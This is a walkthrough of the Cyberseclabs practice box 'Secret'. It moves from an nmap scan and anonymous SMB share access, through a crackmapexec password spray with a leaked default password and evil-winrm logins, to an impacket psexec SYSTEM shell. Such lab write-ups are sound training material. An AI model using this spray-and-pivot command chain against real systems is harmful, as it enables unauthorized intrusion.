In this walkthrough, we'll go over a beginner level box called ***Secret*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).



Let's start the scanning process with nmap:
```bash
nmap -A -T4 -p- 172.31.1.4
```


We can look at the smb to see if we can list any of the shares `smbclient -L 172.31.1.4`:



We can see that "Office_Share" is open for anonymous access `smbclient \\\\172.31.1.4\\Office_Share`:



We don't seem to be able to get into any of the users' folders. However, the template folder reveals an important piece of information which is "Default_Password.txt":



The file has a password of ***SecretOrg!***:



At this point, we can try to bruteforce the smb login with all the users we have found. We can put different formats every user:
```bash
bendover
bdover
b.dover
ben.dover
```
We can do this for every user and then user crackmapexec `for user in $(cat secret-users.txt);do crackmapexec smb secret.csl -u "$user" -p 'SecretOrg!';done`:



It looks like we have found a valid user ***jcakes/SecretOrg!***. We can try to log in with evil-winrm `evil-winrm -i 172.31.1.4 -u jcakes -p 'SecretOrg!'`:



We can run winPEASany.exe on this machine and that find another interesting artifact which is another login information:



Again, we can try to log in with this set of credentials via evil-winrm `evil-winrm -i 172.31.1.4 -u bdover -p 'vF4$x9#z:-eT~Fy'`:



However, this user didn't have any access to the administrator destkop. Although, we can use psexe.py from impacket `sudo python3 psexec.py secret.csl/bdover:'vF4$x9#z:-eT~Fy'@172.31.1.4`:



And we receive a shell as ***NT AUTHORITY\SYSTEM***.

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
